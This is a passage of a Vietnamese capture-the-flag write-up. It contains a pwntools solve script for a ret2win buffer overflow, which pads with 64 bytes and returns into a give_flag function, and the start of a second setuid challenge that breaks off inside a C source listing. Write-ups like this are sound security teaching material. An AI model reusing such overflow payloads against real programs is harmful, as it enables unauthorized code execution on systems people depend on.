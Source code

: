 
Một bài ret2win đơn giản nên mình không đi sâu. Đây là script giải:

```python
from pwn import *
from time import sleep

context.binary = e = ELF("./chal")

gs="""
"""
def start():
    if args.LOCAL:
        p=e.process()
        if args.GDB:
            gdb.attach(p,gdbscript=gs)
            pause()
    elif args.REMOTE:
        p=remote(args.HOST,int(args.PORT))
    return p

p = start()
p.sendline(b"A"*64+p64(0)+p64(0x000000000040133b)+p64(e.sym.give_flag))
p.interactive()
```

## Zapping a Setuid 1

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/f1fc06e3-792f-4820-9a19-c6a276c24f35)

Attachment: [handout.tar.zst](https://uithcm-my.sharepoint.com/:u:/g/personal/22520556_ms_uit_edu_vn/Efecqfqkl81CjwTrt67hHMkBkQgg1MPKEpAHsjUtyDaJxQ?e=LkYBNJ)

Trong máy ảo qemu, ta chạy `./init_chal zapp-setuid-1` rồi `exec setpriv --init-groups --reset-env --reuid user --regid user bash -l` để setup đúng môi trường như trên remote.

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/f96a2453-c098-490e-8ce0-db338f09148c)

Ta thấy được file `exe` là một setuid binary:

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/fba8ac39-09f4-4de6-9fcb-a84aa58e31f6)


Trong đó nó sẽ cần thư viện `ld-linux-x86-64.so.2`, `lib.so` và `libc.so.6`:

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/22dbc140-d96f-43a5-b800-d11197ec6818)

Hơi lạ vì binary lại được mmap địa chỉ cao hơn địa chỉ của các thư viện, thông thường địa chỉ của các thư viện như libc lẽ ra phải cao hơn binary thực thi.

Vậy nên mình sẽ xem thử source code của chương trình.

Phân tích file `zapps-crt0.c`:

```c
...
__section_zapps
void *_zapps_main(void **stack)
{
    char ld_rel[] = "/ld-linux-x86-64.so.2";
    Elf64_Phdr *self_phdr, *self_phdr_end;
    Elf64_Word p_type_interp = PT_INTERP;
    uintptr_t page_filesz, page_memsz;
    ssize_t exe_path_len;
    char ld[PATH_MAX+1];
    size_t max_map = 0;
    void *ld_base_addr;
    unsigned long argc;
```